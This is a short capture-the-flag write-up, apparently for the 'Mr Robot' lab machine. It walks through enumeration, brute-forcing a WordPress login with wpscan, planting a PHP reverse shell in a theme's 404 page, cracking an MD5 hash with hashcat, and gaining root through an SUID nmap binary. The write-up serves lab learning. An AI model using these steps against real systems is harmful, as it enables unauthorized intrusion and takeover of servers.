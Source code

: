 \# lazy writeup

---

> nmap -A $TARGET

> dirb http://$TARGET

    * robots.txt : first key and fsociety.dic (It will be used later)
    * wp-login.php


user elliot , \# Help from writeup ( Method : hydra to login page as a dummy, check status for correct username )

Wpscan on the wp-login with the
> wpscan --url http://$TARGET/wp-login.php --passwords ~/Desktop/THM/mrrobot/fsocity.dic -U elliot

Found Elliot's creds. We can login as wordpress admin.

### Shell access 

Aim: Run PHP reverse-shell script somehow
script used: [pentestermonkey's reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

> Replaced the script with the 404-Page theme php code.

While netcat is listening, we can get access by simply requesting a page that doesn't exist.
To activate the 404-page's script.

> URL : http://$TARGET/nonexistingpagelmfao.html

Now we have the shell access.

---

> ls -la:

    * key-2-of-3 which is not readable by us
    * password.raw-md5

> cat password.raw-md5

Let's crack it with rockyou ( Hint )

> hashcat pass.hash /usr/share/wordlists/rockyou.txt

```
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
.
.
.
```


### PrivEsc

> ./LinEnum.sh

[linenumres.txt](https://github.com/parsakzr/CTF/blob/master/THM/mrrobot/linenumres.txt) :

```
[-] SUID files:
.
.
.
*-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap*
.
.
.
```

It means We can execute shell commands with root privilages via nmap

Older versions of nmap didn't have --script flag
But there was an alternative mode;

> nmap --interactive

```
nmap> !sh
!sh
# whoami
whoami
root

#cat /root/key-3-of-3.txt
```

The End!

